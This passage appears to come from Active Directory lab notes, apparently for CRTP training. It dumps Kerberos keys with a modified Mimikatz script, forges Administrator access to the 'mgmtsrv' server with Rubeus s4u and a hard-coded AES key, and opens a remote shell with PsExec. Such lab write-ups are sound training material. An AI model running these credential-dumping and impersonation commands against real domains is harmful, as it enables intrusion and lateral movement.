 ![](https://i.imgur.com/4aVRLRt.png)

- Since we don't have the `aes256` hash for `studvm$` which is a requirement we need to extract credentials from the domain using a modified `Invoke-MimiEx.ps1`, you can get it from [here](https://github.com/sec-fortress/CRTP-Notes/blob/main/Invoke-MimiEx.ps1)

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
.\Invoke-MimiEx.ps1
```

- Optionnally you can use the normal `Invoke-Mimi.ps1`


```
. .\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::ekeys"'
```

![](https://i.imgur.com/Kv3N9nl.png)

- We can then impersonate the "Administrator" user for the CIFS service on the "mgmtsrv.tech.finance.corp" server using a forged TGT

```
C:\AD\Tools\Rubeus.exe s4u /user:studvm$ /aes256:fd069296acc71ffef3a811fdd4264092f5819fc361d4625201d4771867d5f37d /impersonateuser:Administrator /msdsspn:CIFS/mgmtsrv.tech.finance.corp /ptt
```

- We should now be able to view file share on `mgmtsrv`


```
dir \\mgmtsrv.tech.finance.corp\c$
```

![](https://i.imgur.com/k0ejVRI.png)

- Although this is not enough for us, we need to gain an interactive shell to move further, we can then craft a Kerberos ticket to impersonate the "Administrator" user for the CIFS service on "mgmtsrv.tech.finance.corp" while using the "host" service.

```
C:\AD\Tools\Rubeus.exe s4u /user:studvm$ /aes256:fd069296acc71ffef3a811fdd4264092f5819fc361d4625201d4771867d5f37d /impersonateuser:Administrator /msdsspn:CIFS/mgmtsrv.tech.finance.corp /altservice:host /ptt
```

- We can then use PsExec.exe to gain an interactive powershell session on `mgmtsrv`

```
PsExec.exe \\mgmtsrv.tech.finance.corp powershell
```

![](https://i.imgur.com/1T1FUHW.png)

# **02 - techsrv30.tech.finance.corp**
